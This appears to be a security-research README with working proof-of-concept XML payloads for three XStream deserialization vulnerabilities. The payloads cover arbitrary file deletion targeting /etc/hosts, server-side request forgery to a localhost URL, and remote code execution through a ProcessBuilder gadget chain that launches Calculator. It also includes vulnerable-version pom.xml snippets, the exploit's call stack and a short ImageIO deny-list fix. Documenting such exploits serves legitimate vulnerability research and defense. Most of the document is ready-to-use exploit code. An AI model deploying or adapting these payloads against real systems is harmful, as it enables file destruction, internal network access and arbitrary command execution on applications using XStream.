


# CVE-2020-26259

CVE-2020-26259: XStream(1.4.14) is vulnerable to an Arbitrary File Deletion on the local host when unmarshalling as long as the executing process has sufficient rights.

https://x-stream.github.io/CVE-2020-26259.html

**XStream 1.4.14**



#### pom.xml
```
    <!-- https://mvnrepository.com/artifact/com.thoughtworks.xstream/xstream -->
    <dependencies>
        <dependency>
            <groupId>com.thoughtworks.xstream</groupId>
            <artifactId>xstream</artifactId>
            <version>1.4.14</version>
        </dependency>
    </dependencies>
```

## poc

https://x-stream.github.io/CVE-2020-26259.html

```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='com.sun.xml.internal.ws.util.ReadAllStream$FileStream'>
              <tempFile>/etc/hosts</tempFile>
            </is>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```


# CVE-2020-26258

CVE-2020-26258: A Server-Side Forgery Request can be activated unmarshalling with XStream(1.4.14) to access data streams from an arbitrary URL referencing a resource in an intranet or the local host.

https://x-stream.github.io/CVE-2020-26258.html

#### POC

```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='javax.activation.URLDataSource'>
            <url>http://localhost:8080/internal/:</url>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```

# CVE-2020-26217

CVE-2020-26217: XStream (1.4.13) can be used for Remote Code Execution.

https://x-stream.github.io/CVE-2020-26217.html



#### pom.xml

```
    <!-- https://mvnrepository.com/artifact/com.thoughtworks.xstream/xstream -->
    <dependencies>
        <dependency>
            <groupId>com.thoughtworks.xstream</groupId>
            <artifactId>xstream</artifactId>
            <version>1.4.13</version>
        </dependency>
    </dependencies>

```

#### POC

**Command:** `open -a /Applications/Calculator.app`

```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='java.io.SequenceInputStream'>
              <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                <iterator class='javax.imageio.spi.FilterIterator'>
                  <iter class='java.util.ArrayList$Itr'>
                    <cursor>0</cursor>
                    <lastRet>-1</lastRet>
                    <expectedModCount>1</expectedModCount>
                    <outer-class>
                      <java.lang.ProcessBuilder>
                        <command>
                          <string>open</string>
                          <string>-a</string>
                          <string>/Applications/Calculator.app</string>
                        </command>
                      </java.lang.ProcessBuilder>
                    </outer-class>
                  </iter>
                  <filter class='javax.imageio.ImageIO$ContainsFilter'>
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>start</name>
                  </filter>
                  <next/>
                </iterator>
                <type>KEYS</type>
              </e>
              <in class='java.io.ByteArrayInputStream'>
                <buf></buf>
                <pos>0</pos>
                <mark>0</mark>
                <count>0</count>
              </in>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```

#### 调用栈

```
start:1007, ProcessBuilder (java.lang)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
filter:613, ImageIO$ContainsFilter (javax.imageio)
advance:821, FilterIterator (javax.imageio.spi)
next:839, FilterIterator (javax.imageio.spi)
nextElement:153, MultiUIDefaults$MultiUIDefaultsEnumerator (javax.swing)
nextStream:110, SequenceInputStream (java.io)
read:211, SequenceInputStream (java.io)
readFrom:65, ByteArrayOutputStreamEx (com.sun.xml.internal.bind.v2.util)
get:182, Base64Data (com.sun.xml.internal.bind.v2.runtime.unmarshaller)
toString:286, Base64Data (com.sun.xml.internal.bind.v2.runtime.unmarshaller)
getStringValue:122, NativeString (jdk.nashorn.internal.objects)
hashCode:118, NativeString (jdk.nashorn.internal.objects)
hash:338, HashMap (java.util)
put:611, HashMap (java.util)
putCurrentEntryIntoMap:107, MapConverter (com.thoughtworks.xstream.converters.collections)
populateMap:98, MapConverter (com.thoughtworks.xstream.converters.collections)
populateMap:92, MapConverter (com.thoughtworks.xstream.converters.collections)
unmarshal:87, MapConverter (com.thoughtworks.xstream.converters.collections)
convert:72, TreeUnmarshaller (com.thoughtworks.xstream.core)
convert:72, AbstractReferenceUnmarshaller (com.thoughtworks.xstream.core)
convertAnother:66, TreeUnmarshaller (com.thoughtworks.xstream.core)
convertAnother:50, TreeUnmarshaller (com.thoughtworks.xstream.core)
start:134, TreeUnmarshaller (com.thoughtworks.xstream.core)
unmarshal:32, AbstractTreeMarshallingStrategy (com.thoughtworks.xstream.core)
unmarshal:1404, XStream (com.thoughtworks.xstream)
unmarshal:1383, XStream (com.thoughtworks.xstream)
fromXML:1268, XStream (com.thoughtworks.xstream)
fromXML:1259, XStream (com.thoughtworks.xstream)
main:61, Main
```

## 黑名单 /javax/imageio/ImageIO.java

```
XStream xstream = new XStream();

xstream.addPermission(NoTypePermission.NONE);
// 首先清除默认设置，然后进行自定义设置

xstream.denyPermission(new ExplicitTypePermission(new Class[]{ImageIO.class}));
//将ImageIO类加入黑名单
xstream.fromXML(xml);
```

##参考链接

https://www.cnblogs.com/v1ntlyn/p/14034019.html
